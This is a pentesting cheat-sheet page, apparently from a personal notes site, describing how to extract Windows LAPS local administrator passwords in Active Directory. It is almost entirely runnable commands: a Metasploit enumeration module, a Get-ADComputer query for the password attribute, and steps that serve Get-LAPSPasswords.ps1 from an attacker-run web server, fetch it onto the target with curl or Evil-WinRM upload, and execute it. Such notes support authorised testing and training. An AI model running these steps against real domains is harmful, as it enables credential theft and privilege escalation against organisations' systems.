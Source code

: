 ```yaml
---
title: Local Administrator Password Solution (LAPS) Pentesting
desc: 
tags: [Active, Directory, LAPS, PrivEsc, Privilege, Windows]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Enumeration

1. **Use Metasploit**

    ```sh
    msfconsole
    use post/windows/gather/credentials/enum_laps
    set session 2
    exploit
    ```

<br />

## Exploit

1. **Obtain Administrator's Password**

    1. **Check if You Are in the LAPS_Readers Group**

        ```powershell
        net user <current-username>
        # Global Group memberships  *LAPS_Readers
        ```

    - **Use Get-ADComputer**

        **Get-ADComputer** gets the information of the Active Directory computer.

        ```powershell
        Get-ADComputer -Identity '<active-directory-computer-name>' -property 'ms-mcs-admpwd'
        ```

    - **Use Get-LAPSPasswords.ps1**

        1. **Download the Payload in Local Machine**

            If you are in LAPS_Readers, you can get the administrator's password using **[Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1){:target="_blank"}{:rel="noopener"}**.

            ```sh
            wget https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1
            ```

        2. **Transfer the Payload to Target Machine**

            - **via PowerShell**

                First off, open web server in local machine.

                ```sh
                python3 -m http.server 8000
                ```

                Then curl in target machine

                ```powershell
                curl http://<local-ip>:8000/Get-LAPSPasswords.ps1 -o .\Get-LAPSPasswords.ps1
                ```

            - **via Evil-WinRM**

                If you connect the remote Windows machine with Evil-WinRM, you can use directly by adding **-s** flag when connecting.

                ```powershell
                evil-winrm -i <target-ip> -u username -p password -s /path/to/current/directory
                ```

                Then just execute the payload in evil-winrm console.

                ```powershell
                PS > upload .\Get-LAPSPasswords.ps1 c:\Users\<username>\Desktop\Get-LAPSPasswords.ps1
                ```

        3. **Execute the Payload in Target Machine**

            ```powershell
            .\Get-LAPSPasswords.ps1
            ```